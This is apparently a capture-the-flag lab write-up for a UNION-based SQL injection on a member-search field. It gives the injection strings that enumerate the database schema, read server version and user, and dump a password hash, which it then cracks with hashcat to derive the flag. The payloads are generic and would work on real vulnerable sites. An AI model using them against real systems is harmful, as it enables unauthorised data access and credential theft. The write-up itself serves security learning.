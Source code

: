 # SQL Injection Bruteforce Members

On the member page, there is a search member by id bar.

Lets try to search with the id 1
```
ID: 1
First name: one
Surname: me
```

We got 3 informations.
Same info on id 2 and 3. But nothing on 4...

Id 5 give us something interesting.

```
ID: 5
First name: Flag
Surname: GetThe
```

When we try a research with 'A' character, we got an error message.

```
Unknown column 'A' in 'where clause'
```

If we copy that in google, we can find that is a mySQL error.
Usually, seeing that kind of error message is a consequence of bad request construction server-side: the request is
built directly with user inputs !
So we can try to insert/inject a part of sql request which will be executed and show datas from the database that
we are not allowed to access.

_But how and what?_

The UNION command allow us to concat multiple requests.
To forge our injection we have to put an ID first, follow by UNION and a second command.

A classic sqli part is to use SELECT to display _information_schema.tables_

Lets try something
```
1 UNION SELECT * FROM information_schema.tables
```

This doesn't work because here, we have to give 2 informations to select to fill the array in first name and surname fields.

```
1 UNION SELECT table_name, table_schema FROM  information_schema.tables
```
It works!

We got all the table names and their schema names:
```
ID: 1 UNION SELECT table_name, table_schema FROM  information_schema.tables
First name: db_default
Surname : Member_Brute_Force

ID: 1 UNION SELECT table_name, table_schema FROM  information_schema.tables
First name: users
Surname : Member_Sql_Injection

ID: 1 UNION SELECT table_name, table_schema FROM  information_schema.tables
First name: guestbook
Surname : Member_guestbook

ID: 1 UNION SELECT table_name, table_schema FROM  information_schema.tables
First name: list_images
Surname : Member_images

ID: 1 UNION SELECT table_name, table_schema FROM  information_schema.tables
First name: vote_dbs
Surname : Member_survey
```

But here we need the column_name for each table_name or table_schema.</br>
So let's try this
```
1 UNION ALL SELECT table_name,column_name FROM information_schema.columns;#
```

We now have everything we need to display what we want in the database!

**Awesome!!!**

```
ID: 1 UNION SELECT table_name,column_name FROM information_schema.columns
First name: db_default
Surname : id

ID: 1 UNION SELECT table_name,column_name FROM information_schema.columns
First name: db_default
Surname : username

ID: 1 UNION SELECT table_name,column_name FROM information_schema.columns
First name: db_default
Surname : password

ID: 1 UNION SELECT table_name,column_name FROM information_schema.columns
First name: users
Surname : user_id

ID: 1 UNION SELECT table_name,column_name FROM information_schema.columns
First name: users
Surname : first_name

ID: 1 UNION SELECT table_name,column_name FROM information_schema.columns
First name: users
Surname : last_name

ID: 1 UNION SELECT table_name,column_name FROM information_schema.columns
First name: users
Surname : town

ID: 1 UNION SELECT table_name,column_name FROM information_schema.columns
First name: users
Surname : country

ID: 1 UNION SELECT table_name,column_name FROM information_schema.columns
First name: users
Surname : planet

ID: 1 UNION SELECT table_name,column_name FROM information_schema.columns
First name: users
Surname : Commentaire

ID: 1 UNION SELECT table_name,column_name FROM information_schema.columns
First name: users
Surname : countersign

ID: 1 UNION SELECT table_name,column_name FROM information_schema.columns
First name: guestbook
Surname : id_comment

ID: 1 UNION SELECT table_name,column_name FROM information_schema.columns
First name: guestbook
Surname : comment

ID: 1 UNION SELECT table_name,column_name FROM information_schema.columns
First name: guestbook
Surname : name

ID: 1 UNION SELECT table_name,column_name FROM information_schema.columns
First name: list_images
Surname : id

ID: 1 UNION SELECT table_name,column_name FROM information_schema.columns
First name: list_images
Surname : url

ID: 1 UNION SELECT table_name,column_name FROM information_schema.columns
First name: list_images
Surname : title

ID: 1 UNION SELECT table_name,column_name FROM information_schema.columns
First name: list_images
Surname : comment

ID: 1 UNION SELECT table_name,column_name FROM information_schema.columns
First name: vote_dbs
Surname : id_vote

ID: 1 UNION SELECT table_name,column_name FROM information_schema.columns
First name: vote_dbs
Surname : vote

ID: 1 UNION SELECT table_name,column_name FROM information_schema.columns
First name: vote_dbs
Surname : nb_vote

ID: 1 UNION SELECT table_name,column_name FROM information_schema.columns
First name: vote_dbs
Surname : subject
```

We can also get some versions and others usefull informations!

```
1 UNION ALL SELECT system_user(), user();#
1 UNION ALL SELECT UUID(), @@version;#
```

As _countersign_ and _Commentaire_ are columns of _Member_Sql_Injection_ schema, which is part of the table_name _users_.
```
1 UNION SELECT countersign,Commentaire FROM Member_Sql_Injection.users
```
```
ID: 1 UNION SELECT countersign,Commentaire FROM Member_Sql_Injection.users
First name: 5ff9d0165b4f92b14994e5c685cdce28
Surname : Decrypt this password -> then lower all the char. Sh256 on it and it's good !
```

```
5ff9d0165b4f92b14994e5c685cdce28:FortyTwo                 
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 0 (MD5)
```

We find "FortyTwo", that give "fortytwo" in lowerchar.

To encrypt it in Sha256, we can use Cyberchef.

https://gchq.github.io/CyberChef/#recipe=SHA2('256',64,160)&input=Zm9ydHl0d28

And we got the flag:

```
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```

## External Resources
https://book.hacktricks.xyz/pentesting-web/sql-injection
https://owasp.org/www-community/attacks/SQL_Injection
https://medium.com/@nyomanpradipta120/sql-injection-union-attack-9c10de1a5635
https://sql.sh/cours/union
